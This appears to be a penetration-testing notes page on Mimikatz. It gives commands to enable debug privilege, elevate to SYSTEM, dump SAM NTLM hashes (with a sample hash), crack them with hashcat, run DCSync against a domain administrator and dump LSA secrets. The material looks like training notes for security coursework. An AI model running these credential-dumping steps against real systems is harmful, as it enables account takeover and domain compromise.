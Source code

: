```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Mimikatz

Each command in `mimikatz` consists of a module and a command delimited by two colons (`module::command`).&#x20;

## SAM

**NTML** stores unsalted hashed passwords in **SAM** database (`c:\windows\system32\config\sam`) which cannot be copied while the Windows OS is running.  **Local Security Authority System (LSASS)** runs with `SYSTEM` privileges and caches NTLM hashes.

1. We can extract the NTML hashes if we have `Administrator` / `SYSTEM` privileges and the `SeDebugPrivilege` access right enabled. We can enable the latter with `privilege::debug`.
2. We can use `token::elevate` module to elevate our privileges to `SYSTEM` if we have the `SeImpersonatePrivilege` access right. All local `administrators` have it by default.

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. PrivEsc" %}
{% code overflow="wrap" %}
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

660     {0;000003e7} 1 D 41815          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;001035c2} 2 F 1710035     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1981690     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
{% endcode %}
{% endtab %}

{% tab title="3. Dump SAM" %}
```powershell
mimikatz # lsadump::sam
<SNIP>

RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10

<SNIP>
```
{% endtab %}

{% tab title="4. Crack" %}
{% code overflow="wrap" %}
```bash
hashcat -m1000 nelly_ntml /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Other

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe privilege::debug token::elevate lsadump::secrets exit 
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="mimikatz.exe" %}
{% embed url="https://github.com/gentilkiwi/mimikatz/" %}
{% endtab %}

{% tab title="Invoke-Mimikatz.ps1" %}
{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1" %}
{% endtab %}
{% endtabs %}
